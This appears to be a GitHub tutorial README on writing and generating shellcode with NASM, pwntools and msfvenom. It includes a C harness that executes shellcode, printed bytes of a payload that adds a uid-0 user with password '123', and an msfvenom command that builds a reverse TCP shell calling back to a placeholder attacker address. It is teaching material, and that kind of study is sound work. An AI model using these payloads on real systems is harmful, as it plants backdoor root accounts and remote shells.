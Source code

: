 # Shellcode

A shellcode is a machine **dependent** code that can
be executed by the **CPU** directly w/o the need of Function **Parameters**
any **compiling**, **assembling** or **linking**. The typical goal of a **shellcode** is to create a **shell** preferably with **root** privileges, that is why it is named as shellcode. The **shellcode** is stored in a process
**address** **space** at some convenient place, which can be

- Code Section
- Process Stack
  - As part of input buffer
  - In some environment variable
- Process Heap
  
To execute a shellcode, all you need to do is
simply **transfer** control of execution to that **address**.

![Shellcode](../img/secmec.png)

### Shellcode Archives on Internet

---

A **good** **hacker** always write his/her own shellcodes, and the task is not
much tricky for **assembly** guys. The obvious drawback is that you can
write shellcode for the **architecture** that you are working on. What if you want
the shellcode for other architectures like **arm64**, **powerpc** or **android**.
Moreover, sometimes it becomes a bit tricky if you are not good at assembly
language programming. So being newbies the simplest option is
**downloading** shellcode for your specific **hardware** and **operating** **system** from some Internet archives like

- [Shellcodes database for study cases](https://shell-storm.org/shellcode/index.html)
- [Exploit Database](https://www.exploit-db.com/)

### Writing your own Shellcodes

---

- Can be written in C, but better to write in **assembly**.
- Must know the underlying system calls (execve(), open(), read(),
write(), dup2(), setresuid() and others). For example, place the
string **/bin/bash** in memory and pass it as argument to **syscall**()
system call
- Must have a clear **understanding** of **architecture**'s function **calling** **conventions**.
  
#### Steps to follow

- Write assembly code and create object file using following **command**

```bash
nasm -f elf64 <filename>.nasm
```

- Check out the **opcodes** in the **object** file

``````bash
objdump -M intel -D <filename>.o
``````

- If opcode of an instruction contain **NULL bytes** **'\x00'**, then that
assembly instruction must be **rewritten**(avoid them). For example

``````bash
MOV rax, 0         (b8 00 00 00 00)
XOR rax, rax       (48 31 c0)
``````

- Finally **extract** the **opcode** from the object file, which is you **shellcode**.

Once you have written your shellcode. You can use it. Mostly this shellcode is
made a part of the string which is given as input to a vulnerable program for a
buffer overflow attack. But today we will run our shellcodes as a stand alone C program.

- The general format of a C program using a shellcode is shown below

```C
#include <stdio.h>
#include <string.h>
char *code = "some kind of shellcode";
int main()
{
    printf("len:%d bytes\n", strlen(code));
    int (*foo)() = (int(*)())code;
    foo();
    return 0;
}
```

### NULL bytes

---

Null bytes (also known as null **terminators** or zero bytes) are binary values with all bits set to zero (ASCII value 0). In the context of shellcode and exploit development, the presence of null bytes in the shellcode can lead to **unintended** **behavior** and can pose **challenges** for **successful** exploitation.

- Many programming languages and libraries interpret null bytes as string **terminators**.
- If a null byte appears in the middle of the shellcode, it may prematurely **terminate** the shellcode or any surrounding data, causing the payload to be **incomplete** or **incorrect**.
- Null bytes can interfere with C string functions like **strcpy, strcat, and strlen**, which expect null-terminated strings.
- If shellcode contains null bytes, these functions might not work as expected, leading to **unexpected** behavior or crashes.
- Null bytes can lead to memory **corruption** if they are **misinterpreted** by the program. - For example, a null byte might terminate a buffer earlier than expected, causing buffer overflows or unexpected data **manipulation**.

## Example

---

Check out the [exitcode01.nasm](exitcode01.nasm)

- Compilation and extracting opcode (shellcode)
  
```bash
nasm -felf64 exitcode.nasm
ld exitcode.o
objdump -M -d intel ./a.out
objdump -M intel exitcode02.o -d | grep "^ " | cut -f2 
```

- Now run exitcode.c where shellcode is injected.

### Generating Shellcodes using PWN Tools

---

**Pwntools** which is a CTF(Capture the flag) framework and **exploit**
development library written in **python**. It is designed for rapid **prototyping** and
**development** and intended to make **exploit** writing as **simple** as **possible**.

```bash
sudo apt-get install python3-dev python3-pip
sudo pip install pwntools
```

We will focus on one of its sub-module called **shellcraft**, which allows
us to write **assembly** code similar to what we can do with [**NASM**](https://github.com/meharehsaan/intelx86-64), but using
python. So you don't have to know much about **assembly** to make it work.

### MSF and msfvenom

---

```bash
msfvenom -h
msfvenom -l payloads
msfvenom -l payloads | grep linux/x86
msfvenom -p linux/x86/adduser --payload-options
```

- **Metasploit** Framework is an open source **pentesting** framework used for
  - Vulnerability research
  - Writing, testing and using exploit code
  - Shellcode development
- This comes pre-installed with **Kali** Linux. There are many interfaces to it like,
**msfconsole, msfcli, msfgui, msfweb, and armitage**.
- Submodule **msfvenom**, to generate **predefined** shellcodes suitable for many
platforms and **architectures**. Some self contained **payloads** that do a specific task are
available in **/usr/share/metasploit-framework/modules/singles/** directory.
- msfvenom is a **combination** of **Msfpayload** and **Msfencode**, putting both of these
tools into a single Framework instance.
- Additional benefits of using **msfvenom** are like avoiding bad characters like **null**
bytes and generating the shellcode in various file formats to be used in C, Python,
or C# programs.
- **Meterpreter**, which is a post
**exploitation** tool and is used for in-memory dll/so-injection in the **memory** **space** of
the exploited process without having to **create** a new process.

#### Working

- The command below **creates** shell code for creating a user having **username** **mehar** and **password** 123 and the -**b** option avoids the **null** bytes and -**e** uses encoder for shellcode and -**f** **c** means can inject shellcode in c program.

```bash
msfvenom -p linux/x86/adduser PASS=123 USER=mehar -f c -b '\00' -e shikata_ga_nai

// shellcode generated by msfvenom for adding a user
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9"
"\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65"
"\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x23\x00\x00"
"\x00\x6d\x65\x68\x61\x72\x3a\x41\x7a\x4f\x4d\x52\x51\x4d"
"\x38\x47\x46\x39\x74\x67\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04"
"\x58\xcd\x80\x6a\x01\x58\xcd\x80";
```

- Creates a shellcode for reverse tcp shell on some other machne to hack the machine by creating a shell on the victim machine.

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=attacker_port -f elf -o shell.elf
```

## Links

- [Shell Code For Beginners](https://www.exploit-db.com/docs/english/13019-shell-code-for-beginners.pdf)
- [Shell Coding](https://www.arridae.com/blogs/shell-coding.php)
- [The Shellcoder's Handbook](https://ia800205.us.archive.org/8/items/Wiley.The.Shellcoders.Handbook.2nd.Edition.Aug.2007/Wiley.The.Shellcoders.Handbook.2nd.Edition.Aug.2007.pdf)
